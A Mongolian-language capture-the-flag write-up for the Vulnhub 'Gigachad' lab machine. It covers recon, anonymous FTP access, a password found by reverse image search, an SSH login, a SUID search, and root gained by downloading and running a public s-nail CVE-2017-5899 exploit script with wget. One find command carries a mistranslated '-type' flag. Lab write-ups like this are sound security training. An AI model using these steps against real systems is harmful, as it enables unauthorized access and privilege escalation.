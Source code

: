 # Machine-7 "Gigachad : 1 Vulnhub"
**1.** Target-ын мэдэээл авах netdiscover командыг хийснээр бидний зорилтот IP гэж юу болохыг харах боломжтой

![image](https://github.com/Bultuush/Machine-7/assets/129934501/57e19211-1c99-4160-9a0a-115fd28c3d9f)

**2.** Дараа нь бид nmap ашиглан нээлттэй портуудыг олох хэрэгтэй.

![image](https://github.com/Bultuush/Machine-7/assets/129934501/31ea9c37-d3ac-4e8b-99d7-8b220448f718)

Хэрэглэгчийн flag ашиглаж байна:
Бид **FTP (21)**, **SSH (22)** болон **HTTP (80)** гэсэн гурван нээлттэй портыг олж илрүүлсэн.

Бид 80-р портоор эхэлж болно, гэхдээ вэбсайтад юу ч байхгүй

![image](https://github.com/Bultuush/Machine-7/assets/129934501/7dbc2715-c2b7-4742-b1c6-46fb4f7c0ff4)

FTP-ийн хувьд нэргүй нэвтрэх боломжтой гэдгийг бид харж байна. Тиймээс бид FTP руу нэвтрэхийг оролдох болно

ftp 192.168.1.5

Хэрэглэгчийн нэр үл мэдэгдэх бөгөөд нууц үг хоосон байх болно (нууц үг асуух үед enter дарна уу)

![image](https://github.com/Bultuush/Machine-7/assets/129934501/85320410-8128-4fed-b6a7-022e12a70207)

Бид файлуудыг үзэхийн тулд **dir** эсвэл **ls** командыг ашиглана. Таны харж байгаагаар бид chadinfo нэртэй файлыг олсон

Бид get командыг ашиглан файлыг татаж авах болно

![image](https://github.com/Bultuush/Machine-7/assets/129934501/44b5794a-1788-40bd-abc1-3ab583d83221)

Одоо cat ашиглан файлыг нээцгээе

![image](https://github.com/Bultuush/Machine-7/assets/129934501/dc1ef91f-0256-4496-9fa6-d9735abdcd2a)

Бид хэрэглэгчийн нэрийг chad гэж авсан бөгөөд нууц үгийн хувьд тэд бидэнд /drippinchad.png лавлахыг өгсөн. Үүнийг шалгаж үзье

Хөтөч дээр http://192.168.1.17/drippinchad.png-г нээсний дараа бид доорх хуудсыг авна.

![image](https://github.com/Bultuush/Machine-7/assets/129934501/d2f675b3-306b-49e1-a637-e8272fe3a0bb)

Тайлбарын дагуу нууц үг нь зураг дээрх газартай холбоотой байх ёстой. Хэрэв та энэ газрыг мэддэг бол доорх алхмуудыг алгасана уу. Хэрэв та мэдэхгүй бол бид зургийг татаж аваад Google дээр reverse image хайх болно

Google Images руу очоод Камерын дүрс дээр дарна уу

Одоо файлуудыг үзэж, зургаа оруулна уу

Та энэ газрыг харуулсан зарим холбоосыг харах болно

![image](https://github.com/Bultuush/Machine-7/assets/129934501/ea7c0372-505f-49bf-9199-9ebd148eb56c)

Би хоёр дахь холбоосыг дагаж, нэр нь Охины цамхаг болохыг олж мэдэв

Бид порт 22 (SSH) нээлттэй байгааг олж мэдсэн тул бид chad (бид chadinfo файлаас авсан) хэрэглэгчээр нэвтэрч, охины цамхагтай холбоотой нууц үгийг тааварлах болно.

Хэсэг хугацааны дараа би нууц үг нь maidenstower болохыг олж мэдэв

Тиймээс бид SSH-д хэрэглэгчийн **user:chad**, **password:maidenstower**-ээр нэвтрэх болно

ssh chad@192.168.1.17

![image](https://github.com/Bultuush/Machine-7/assets/129934501/b855a6b4-f480-45c2-a076-b03ec585dac5)

ls-ийг хийсний дараа бид хэрэглэгчийн flag-ынхаа user.txt-г авсан

![image](https://github.com/Bultuush/Machine-7/assets/129934501/13c4a110-d258-44f7-92e9-830d5b0e27ba)

Эрхийг нэмэгдүүлэхийн тулд бид chad хэрэглэгчийн sudo зөвшөөрлийг хайж олох боломжтой.

**find / -perm -4000 -төрөл f -exec ls -la {} 2>/dev/null \;**

Энэ команд нь setuid бит тохируулсан (`-perm -4000`) болон файлын төрлийн (`-type f`) файлуудыг бүхэлд нь файлын системээс (`/`) хайдаг. Дараа нь эдгээр файл бүр дээр `ls -la`-г ажиллуулж, тэдгээрийн дэлгэрэнгүйг жагсаана. `2>/dev/null` хэсэг нь зөвшөөрөгдөөгүй алдааг дарахын тулд алдааны мэдээг `/dev/null` руу дахин чиглүүлдэг.

![image](https://github.com/Bultuush/Machine-7/assets/129934501/843c797e-83ac-429b-8f51-07a18a9509d4)

Үйлчилгээг судалсны дараа би шуудангаар ашигладаг **s-nail** үйлчилгээг олсон. Энэ нь мөн **CVE-2017–5899**-д ашиглах боломжтой давуу эрх нэмэгдүүлэх боломжуудтай.

![image](https://github.com/Bultuush/Machine-7/assets/129934501/9c8ba76d-e85c-459c-9134-009dd66abf5e)

Би доорх **Github exploit**-ийг ачаалал болгон ашигласан

![image](https://github.com/Bultuush/Machine-7/assets/129934501/6159c346-938b-4900-98bd-a5d8dcdb2b93)

Home лавлах дотроос **wget** ашиглан **exploit.sh** татаж авна уу

**wget https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2017-5899/exploit.sh**

![image](https://github.com/Bultuush/Machine-7/assets/129934501/2d2349bf-6d7e-4ef8-93b1-f15d8be95123)

Одоо бид **exploit.sh**-д chmod ашиглан гүйцэтгэх зөвшөөрлийг өгөх болно

**chmod 777 exploit.sh**

Тэгээд бид **exploit**-ийг ажиллуулна

**./exploit.sh**

![image](https://github.com/Bultuush/Machine-7/assets/129934501/834ffd21-b263-45c9-8469-3404ba269966)

Бид **success** мессежийг хүлээн авах бөгөөд бид **root shell** авах болно

![image](https://github.com/Bultuush/Machine-7/assets/129934501/f405ac23-a57e-4961-8a33-1c944553a210)

/root лавлах руу оч, бид root.txt үндсэн туг болох сүүлчийн тугийг авлаа!

![image](https://github.com/Bultuush/Machine-7/assets/129934501/fd6b703d-159c-4bb6-9507-1bd7250c271e)

